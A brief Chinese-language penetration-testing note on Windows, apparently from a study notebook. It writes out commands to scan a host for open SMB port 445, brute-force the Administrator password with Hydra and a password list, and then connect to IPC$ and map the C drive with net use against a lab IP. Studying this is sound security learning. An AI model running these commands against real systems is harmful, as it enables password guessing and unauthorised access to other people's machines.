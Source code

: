 <!--
title: 03-Windows入门
sort:
-->

## Windows

> 提权
>
> [nmap](https://nmap.org/dist/?C=M&O=D)
>
> [Hydra](https://github.com/maaaaz/thc-hydra-windows)

```powershell
# 查看445端口是否开放
nmap -O <addr>

# 开启SMB1支持
# 关闭防火墙
# 开启文件共享

# l 用户名 P 密码 ip 协议
hydra -l Administrator -P passlist.txt 192.168.252.128 smb

# 连接
net use \\192.168.252.128\ipc$ 1234 /user:Administrator
# 映射
net use x: "\\192.168.252.128\本地磁盘 (C)"

```
